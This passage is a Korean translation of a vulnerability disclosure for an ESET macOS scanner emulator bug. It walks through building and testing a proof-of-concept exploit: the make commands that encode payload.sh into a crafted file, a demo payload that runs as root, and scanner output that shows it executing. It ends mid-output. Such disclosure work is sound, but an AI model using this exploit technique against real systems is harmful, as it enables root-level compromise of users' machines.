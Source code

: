 Figure 5는 POP 명령어를 통해 메모리 주소 공간을 탐색하는것을 보여준다. 이것은 매우 자원이 많이드는 비싼 동작이기 때문에 시퀀스는 보통의 경우 싸이클수를 줄일 수 있도록 최적화되어 있다. 만약 좋은 후보를 발견할 경우, 리턴주소를 덮어쓰고 에뮬레이터를 종료한다.

### 익스플로잇 가능성 테스트

분석을 돕기위해 삽입된 스크립트를 실행하는 샘플 익스플로잇을 보고서와 함께 제공하며, 이는 아래 링크에서 다운로드 가능하다. 

https://code.google.com/p/google-security-research/issues/detail?id=456

첨부한 익스플로잇을 빌드하고 테스트하려면, 실수로 시스템이 익스플로잇 되는것을 방지하기 위해 우선 실시간 파일시스템 검색 기능을 비활성화시켜야 한다. 익스플로잇을 빌드하기 위해서는 애플에서 배포하는 XCode 커맨드라인 툴 패키지가 설치되어 있어야 한다. 만약 해당 패키지가 설치되어어있지 않다면, 커맨드라인에 make를 입력할 시 자동으로 패키지 설치 안내 메시지가 출력될 것이다.

{% highlight bash %}
$ ls -l
total 28K
-rw------- 1 taviso eng 17K Jun 18 12:45 esetemu.asm
-rw------- 1 taviso eng 605 Jun 18 10:31 Makefile
-rw------- 1 taviso eng 514 Jun 18 15:58 payload.sh
{% endhighlight %}

payload.sh 파일은 익스플로잇에 삽입되어 있고, 익스플로잇이 성공했을 경우 실행된다.

{% highlight bash %}
$ cat payload.sh 
#!/bin/sh
#
# This is the payload code run as root in the context of esets_daemon after
# successful exploitation.
#
osascript -e 'tell application "Finder" to set desktop picture to POSIX file "/usr/share/httpd/icons/bomb.png"'
/Applications/Calculator.app/Contents/MacOS/Calculator &
echo w00t
uname -a; date; id
{% endhighlight %}

make를 실행하며 익스플로잇을 빌드하면 되고, esetemu.bin 파일에는 결과가 저장된다. 파일 확장자는 취약점에 중요하지않으며, 심지어 .txt도 가능하다. 

{% highlight bash %}
$ make
gzip -9c < payload.sh | base64 | tr -d '\n' >> payload.inc
nasm -O0 -f bin -D__MACOS__ -o esetemu.bin esetemu.asm
{% endhighlight %}

익스플로잇을 테스트하기 위해서는, ESET 설치로부터 esets_scan 유틸리티를 사용해야 한다. 자신의 사용자 계정으로 실행되며, 만약 뭔가 잘못된다면 크래시나 스크립트의 문법 에러 등을 통해 눈치챌 수 있다. 

{% highlight bash %}
$ /Applications/ESET\ Cyber\ Security\ Pro.app/Contents/MacOS/esets_scan esetemu.bin

ESET Command-line scanner, (C) 1992-2011 ESET, spol. s r.o.
Module loader, version 1056 (20150113), build 1082
Module perseus, version 1456 (20150512), build 1687
Module scanner, version 11810 (20150619), build 24399
Module archiver, version 1228 (20150528), build 1230
Module advheur, version 1154 (20150129), build 1120
Module cleaner, version 1109 (20150519), build 1140

Command line: esetemu.bin 

Scan started at:   Thu Jun 18 21:57:48 2015
w00t
Darwin Macs-Mac.local 13.0.0 Darwin Kernel Version 13.0.0: Thu Sep 19 22:22:27 PDT 2013; root:xnu-2422.1.72~6/RELEASE_X86_64 x86_64